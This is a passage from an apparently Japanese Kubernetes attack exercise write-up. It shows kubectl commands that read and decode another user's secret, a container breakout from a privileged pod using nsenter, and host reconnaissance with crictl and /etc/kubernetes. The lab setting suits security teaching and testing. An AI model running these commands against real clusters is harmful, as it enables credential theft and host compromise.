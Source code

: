 ```bash
$ ./kubectl get secret --kubeconfig kubeconfig
NAME           TYPE     DATA   AGE
user1-secret   Opaque   2      50m
user2-secret   Opaque   2      50m

$ ./kubectl get secret user2-secret -o jsonpath='{.data}'
{"password":"cGFzc3dvcmQy","username":"dXNlcjIK"}

$ ./kubectl get secret user2-secret -o jsonpath='{.data.username}' | base64 -d
user2

$ ./kubectl get secret user2-secret -o jsonpath='{.data.password}' | base64 -d
password2
```

このように侵入したコンテナ内で情報を集め、追加の認証情報を取得できればさらに攻撃範囲を広げることができます。

## コンテナブレイクアウト

演習用の Pod は特権コンテナかつ PID Namespace をホスト（＝ノード）と共有しています。
そのため `nsenter` コマンドを実行するだけでホストに脱出できます。

```bash
$ cat /etc/hostname
ubuntu-privileged

$ nsenter --target 1 --mount --uts --ipc --net --pid -- bash

$ cat /etc/hostname
kind-worker
```

ホストに脱出した後は、ホスト上のファイルやプロセスに自由にアクセス可能です。
実行されているコンテナプロセスを確認したり、認証情報を収集しさらなる攻撃に役立てたりすることができます。

```bash
$ crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                     ATTEMPT             POD ID              POD
947b3435e9de4       35a88802559dd       24 minutes ago      Running             ubuntu                   0                   8bca2bb86db9e       ubuntu-privileged
bc43bf2da6e33       b5adf140fb488       4 hours ago         Running             cilium-operator          20                  d3c548eb7aee7       cilium-operator-9bfb5ffbd-klbnf
b432f9db8557d       308d834383594       4 hours ago         Running             unguard-user-simulator   0                   d774d388ebc30       unguard-user-simulator-28722870-vbz8n
6a122470f8291       308d834383594       34 hours ago        Running             unguard-user-simulator   0                   76a285928ee94       unguard-user-simulator-28721070-fwzg2
186aa6e43bacf       308d834383594       3 days ago          Running             unguard-user-simulator   0                   26cc1931d4968       unguard-user-simulator-28717860-sb9gt
4b85a71f357e9       ecd074983f414       4 days ago          Running             tetragon                 1                   0bc3a75e97cb4       tetragon-7pgpm
9280e4f6f7f8f       aebfd554d3483       4 days ago          Running             cilium-agent             0                   263d17014d39e       cilium-ncsp5
c66ea67e0dfae       acc4836f7b346       4 days ago          Running             export-stdout            0                   0bc3a75e97cb4       tetragon-7pgpm

$ ls /etc/kubernetes/
kubelet.conf  manifests  pki
```
